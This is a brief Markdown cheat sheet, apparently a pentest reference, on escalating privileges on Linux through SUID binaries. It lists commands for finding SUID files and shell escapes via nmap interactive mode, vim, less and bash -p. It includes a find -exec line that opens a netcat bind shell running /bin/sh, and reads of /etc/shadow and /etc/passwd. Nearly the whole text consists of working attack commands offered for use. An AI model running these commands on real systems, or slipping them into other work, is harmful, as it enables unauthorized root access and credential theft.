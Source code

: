 # Linux SUID Privilege Escalation

### Locating SUIDS
`find . -perm /4000 2>/dev/null`

### Exploiting SUIDs

nmap 2.02 - 5.21  
`nmap -V #version check`  

`nmap --interactive`  
`nmap> !sh`

find  
`find <file> -exec <CMD> \;`  
Escalation to root shell  
`find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;`

Vim  
`vim /etc/shadow`  
`vim`  
`# Press ESC key`  
`:set shell=/bin/sh`  
`:shell`

bash  
`bash -p`

less  
`less /etc/passwd`  
`!/bin/sh`


